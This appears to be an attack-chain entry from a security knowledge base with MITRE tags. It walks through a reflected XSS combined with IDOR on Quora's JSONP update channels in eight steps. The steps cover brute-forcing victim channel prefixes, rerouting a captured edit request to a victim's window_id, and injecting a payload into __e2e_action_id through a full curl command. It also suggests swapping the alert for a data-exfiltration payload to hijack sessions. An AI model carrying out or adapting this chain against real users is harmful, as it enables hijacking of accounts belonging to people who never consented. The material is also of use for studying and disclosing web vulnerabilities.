

---
tags:
  - xss
  - idor
  - javascript
  - web
  - quora
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Chromium]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Login-and-Capture-Normal-Edit-Request]]'
  - '[[procedures/Enumerate-Victim-Channel-Prefix]]'
  - '[[procedures/Modify-Request-for-Victim-Channel-Targeting]]'
  - '[[procedures/Inject-XSS-Payload-into-Action-ID]]'
  - '[[procedures/Send-Exploit-Request-and-Verify-Execution]]'
step_count: 8
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:44.619Z'
description: >-
  An authenticated attacker exploits reflected XSS in Quora's AJAX endpoints
  combined with IDOR in window_id parameters to deliver arbitrary JavaScript to
  a victim's browser without interaction, enabling session hijacking.
skill_level: intermediate
impact_level: high
id: 6c9e0768-5472-4f2c-a6f3-d8d6a363b870
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Chained XSS and IDOR for Arbitrary JavaScript Execution on Quora via Channel Targeting

Multi-stage attack chain exploiting Quora's AJAX architecture to achieve reflected XSS delivered via JSONP over user-specific channels, combined with IDOR to target victims without interaction.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Chromium]]

### Target Environment

- Quora.com web application
- Authenticated session required
- Network access to Quora endpoints (e.g., /webnode2/server_call_POST, tch.quora.com/updates)

### Initial Access Requirements

- Valid Quora account credentials for attacker
- Knowledge of victim's approximate channel prefix (brute-forceable)
- No prior victim access needed; channel targeting via IDOR

## Detailed Attack Procedures

### Step 1: Login and Access Profile
procedure: [[procedures/Login-and-Capture-Normal-Edit-Request]]

**Objective**: Authenticate and prepare to capture a legitimate profile edit request for modification.

**Instructions**: Log in to Quora using [[tools/Chromium]] and navigate to the profile page to access the edit feature.

**Expected Output**: Successful login and profile page loaded.

**Success Indicators**:
- Profile editing interface visible
- Developer tools accessible

### Step 2: Capture Normal Edit Request
procedure: [[procedures/Login-and-Capture-Normal-Edit-Request]]

**Objective**: Monitor and copy a legitimate POST request to the edit endpoint using browser dev tools.

**Instructions**: Open Network tab in dev tools, update profile with dummy data (e.g., "a"), and copy the curl command for the server_call_POST request.

**Expected Output**: Full curl command with parameters like __e2e_action_id, window_id, and json payload.

**Success Indicators**:
- Request captured with HTTP 200 response
- Edit applied to attacker's profile

### Step 3: Enumerate Victim Channel Prefix
procedure: [[procedures/Enumerate-Victim-Channel-Prefix]]

**Objective**: Identify a valid channel prefix for the victim to enable targeting.

**Instructions**: Use browser or curl to probe partial channel names via /check_livedeps/index?window_id=depXXXX- to validate 4-digit prefixes.

**Expected Output**: "ok" response for valid prefixes.

**Success Indicators**:
- Valid channel format discovered (e.g., dep3501-3261853912009855464)
- Brute-force yields live channel

### Step 4: Modify Request for Victim Channel
procedure: [[procedures/Modify-Request-for-Victim-Channel-Targeting]]

**Objective**: Alter the captured request to route the response to the victim's channel using IDOR.

**Instructions**: Replace window_id and _lm_window_id in the curl command with the victim's channel name.

**Expected Output**: Modified curl command ready for payload injection.

**Success Indicators**:
- Parameters updated without syntax errors
- Request structure preserved

### Step 5: Inject XSS Payload
procedure: [[procedures/Inject-XSS-Payload-into-Action-ID]]

**Objective**: Craft a malicious __e2e_action_id to break out of the JSONP string and inject JS.

**Instructions**: Set __e2e_action_id to ',alert(1),' in the data payload of the curl command.

**Expected Output**: Payload integrated: __e2e_action_id=",alert(1),"

**Success Indicators**:
- Payload escapes finishAction() call
- No immediate errors in command syntax

### Step 6: Send Modified Request
procedure: [[procedures/Send-Exploit-Request-and-Verify-Execution]]

**Objective**: Execute the exploit to queue the malicious message in the victim's channel.

**Instructions**: Run the modified curl command using [[commands/curl-quora-xss-exploit]].

```bash
curl 'https://www.quora.com/webnode2/server_call_POST?_v=2rtUq6Z4HO9gWK&_m=edit' -H 'Cookie: m-b="██████████████"; m-sa=1; m-s="█████████████████"; m-screen_size=1920x1080; m-login=1; m-ju=███████████████████████████████████████; m-early_v=4e4c117b82baf40e; m-tz=-120; m-css_v=69026465bc2615b6; m-wf-loaded=q-icons-q_serif; _ga=GA1.2.2058437224.1502195915; _gid=GA1.2.1848940326.1502195915' -H 'Origin: https://www.quora.com' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: it-IT,it;q=0.8,en-US;q=0.6,en;q=0.4' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Referer: https://www.quora.com/profile/████' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'DNT: 1' --data 'json={"args":[],"kwargs":{"id":█████████,"input":{"sections":[{"type":"plain","indent":0,"quoted":false,"spans":[{"modifiers":{},"text":"a"}]}],"caret":{"start":{"spanIdx":0,"sectionIdx":0,"offset":1},"end":{"spanIdx":0,"sectionIdx":0,"offset":1}}}}}&revision=904d048187b642341464067b64246119b8ce9489&formkey=6a34c75ed7fda8439ca2407b4520c974&postkey=736f2eea9e3826808823625bf4ede215&window_id=dep3501-3261853912009855464&referring_controller=user&referring_action=profile&_lm_transaction_id=0.7159021828610441&_lm_window_id=dep3501-3261853912009855464&__vcon_json=["2rtUq6Z4HO9gWK"]&__vcon_method=edit&__e2e_action_id=",alert(1),"&js_init={"id":████████,"input":"user_description_text","typing_area":null,"draft_space":null,"unsaved_content_msg":"Your content has not been saved.","focus_onload":false,"is_qtext":true,"require_comment":false,"require_value":false,"content_type":null,"submit_text":"Update","show_editor":false}&__metadata={}' --compressed
```

**Expected Output**: HTTP 200; message queued to victim's channel.

**Success Indicators**:
- Server accepts request
- No authentication errors

### Step 7: Victim Fetches Update
procedure: [[procedures/Send-Exploit-Request-and-Verify-Execution]]

**Objective**: Wait for victim's client to poll the channel and execute the payload.

**Instructions**: Monitor victim's browser or simulate with [[commands/curl-quora-channel-update]] to fetch updates.

**Expected Output**: JSONP response with require('actions').finishAction('',alert(1),').

**Success Indicators**:
- Payload reflected unescaped
- JS executes on fetch

### Step 8: Verify JS Execution
procedure: [[procedures/Send-Exploit-Request-and-Verify-Execution]]

**Objective**: Confirm arbitrary code execution on victim's side.

**Instructions**: Observe alert(1) popup or replace with data exfiltration payload.

**Expected Output**: Alert box or network request from victim's browser.

**Success Indicators**:
- JS runs in victim's context
- Session data potentially stolen

## Attack Chain Summary

### Key Achievements

1. Bypassed same-origin restrictions via JSONP channel delivery
2. Targeted specific victims using IDOR without interaction
3. Achieved arbitrary JS execution leading to session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2024-10-01T00:00:00Z*
